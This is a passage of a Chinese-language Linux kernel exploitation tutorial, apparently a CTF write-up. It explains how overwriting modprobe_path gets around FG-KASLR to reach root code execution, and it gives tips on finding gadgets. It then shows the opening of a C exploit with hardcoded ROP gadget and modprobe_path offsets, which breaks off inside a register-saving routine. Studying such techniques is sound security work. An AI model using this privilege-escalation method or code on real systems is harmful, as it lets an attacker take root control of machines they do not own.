 >  那么开启 FG-KASLR 之后粒度更细，但内核中始终有一些区域是不受影响的，我们就可以从这里面找gadget，但是开 FG-KASLR 后，从 rax 到 rdi 的 gadget 就没有了。。所以调用`commit_creads(prepare_kernel_cred(0))`会非常折磨，因此另一种方法就应运而生——覆写modprobe_path技术，这种方法使用的 gadget 比较少，限制也比较少，很多情况都可以通杀。

#### modprobe_path

当我们在系统上执行文件类型未知的文件时，系统将会执行当前路径存储在modprobe_path中的任何文件。因此，我们可以使用任意写入原语，将modprobe_path覆盖到我们自己编写的Shell脚本的路径中，然后执行具有未知文件签名的虚拟文件。其结果将导致在系统仍处于内核模式时执行Shell脚本，从而导致root权限的任意代码执行。

简而言之，就是覆盖 modprobe_path 里的路径，之后在这个路径文件写上自己的命令，从而在内核执行该命令来getshell，而执行 modprobe_path 的条件就是执行系统未知的文件，是现在比较主流的方法。

> 另外这里摸个题外话，有些 gadget 通过 ROPgadget 找不到是因为我们 x86 的指令是不定长的，有些网上的 exp 找到的 gadget 可能是通过指令错位找到的 gadget ，因此，还是比较建议通过 `objdump` 来找

##### exp

```c
#include <string.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <sys/ioctl.h>
#include <signal.h>

void get_shell();

size_t vmlinux_base = 0xffffffff81000000;
size_t user_cs, user_ss, user_rflags, user_sp;

size_t swapgs_restore_regs_and_return_to_usermode = 0x200f10;
size_t kpti_trampoline = 0;
size_t modprobe_path = 0x1061820;

size_t write_rbx_rax_pop_rbx_rbp_ret = 0x306d;

// ffffffff8100306d:	48 89 03             	mov    QWORD PTR [rbx],rax
// ffffffff81003070:	5b                   	pop    rbx
// ffffffff81003071:	5d                   	pop    rbp
// ffffffff81003072:	c3                   	ret

size_t pop_rbx_r12_r13_rbp_ret = 0x3039;
size_t pop_rax_ret = 0x4d11;


void info(char *s , size_t address ){
    if (address) printf("\033[32m\033[1m[Info] %s : \033[0m%#lx\n", s, address);
    else printf("\033[32m\033[1m[Info] %s \033[0m\n", s);
}

void error(char *s){
    printf("\033[31m\033[1m[Error] %s\n\033[0m" , s);
    exit(1);
}

void save_status(){
    __asm__(
        ".intel_syntax noprefix;"
        "mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_sp, rsp;"
        "pushf;"
        "pop user_rflags;"
```